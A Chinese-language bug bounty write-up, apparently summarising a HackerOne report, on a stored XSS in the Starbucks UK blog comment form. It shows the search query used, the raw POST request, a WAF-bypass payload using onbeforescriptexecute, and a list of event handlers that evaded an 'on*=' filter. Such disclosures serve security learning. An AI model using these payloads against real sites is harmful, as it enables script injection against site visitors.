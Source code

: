 # 漏洞散记
## Comment处的XSS
> 这篇漏洞单独不大，主要目的在于搜集，因为作者列出了不少XSS中可以用来bypass的事件，这个很方便

> 漏洞价值:500$

> 源漏洞:[#218226](https://hackerone.com/reports/218226)


# 挖洞过程
`site:www.starbucks.co.uk inurl:blog/`

作者利用google hacking查询到域名下的博客部分，因为作者觉的，这个地方既然发布了文章，就很有可能存在用户交互的地方，也就是评论部分。结果如作者所料：

```
POST /blog/addcomment HTTP/1.1
Host: www.starbucks.co.uk
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
X-NewRelic-ID: VQUHVlNSARACV1JSBAIGVA==
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Referer: https://www.starbucks.co.uk/blog/setting-the-record-straight-on-starbucks-uk-taxes-and-profitability
Content-Length: 321
Cookie: [redacted]
Connection: close

Body=Nice&ParentId=0&PostID=1241&author=ope67164%40disaq.com
```
`Body`和`author`的值会被带入到新的评论中发布到页面上。作者发现`author`的值没有被完全的编码，因为HTML标签能够被传入其中。

但是网站本身存在waf，当发现参数中携带`<script></script>`或者是匹配到`on*=`时，便会返回500的错误，作者这时候就只能想办法bypass

## Fuzz

```
</li></ul></li></ul></div></div></div></div><test/onbeforescriptexecute=confirm`h1poc`>
```
作者尝试跳过大部分的标签，并且使用`onbeforescriptexecute`作为事件使用，最终上面的payload可以执行

作者还经过测试，查看哪些能够bypass`on*=`

```
onsearch
onwebkitanimationiteration
onwebkitanimationstart
onanimationiteration
onwebkitanimationend
onanimationstart
ondataavailable
ontransitionend
onanimationend
onreceived
onpopstate
```
## 结论
其实本次的漏洞并不是很难，但是真正值得注意的部分是一个漏洞猎人如何去挖掘与bypass，明白`on*=`只要代码没有写成绝对的禁止，那必然有绕过的方式
